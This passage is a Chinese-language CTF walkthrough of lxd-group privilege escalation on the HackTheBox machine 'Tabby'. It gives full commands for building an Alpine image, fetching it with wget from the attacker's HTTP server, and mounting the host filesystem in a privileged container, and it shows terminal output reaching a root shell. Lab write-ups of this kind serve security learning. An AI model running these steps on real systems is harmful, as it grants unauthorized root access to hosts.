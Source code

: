 ```

按照[hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)Method 2里的提权方法


kali端：
下载仓库到本地

```git clone https://github.com/saghul/lxd-alpine-builder```

编译：
```
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```

攻击机用python开启一个http服务，传编译好的镜像文件到靶机


```wget http://10.10.16.3:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz```

靶机端加载靶机，初始化。注意：此操作不能在```/tmp```目录下执行，只能在```/home/ash/```下
```
ash@tabby:~$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
<e-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
ash@tabby:~$ lxd init

```
一路按默认。

提权到root
```
ash@tabby:~$ lxc init myimage mycontainer -c security.privileged=true
lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer
ash@tabby:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer
ash@tabby:~$ lxc start mycontainer
lxc start mycontainer
ash@tabby:~$ lxc exec mycontainer /bin/sh
lxc exec mycontainer /bin/sh
~ # ^[[50;5Rid
id
uid=0(root) gid=0(root)
~ # ^[[50;5Rwhoami
whoami
root

```

找到root.txt
```
~ # ^[[50;5Rfind / -name root.txt
find / -name root.txt
/mnt/root/root/root.txt
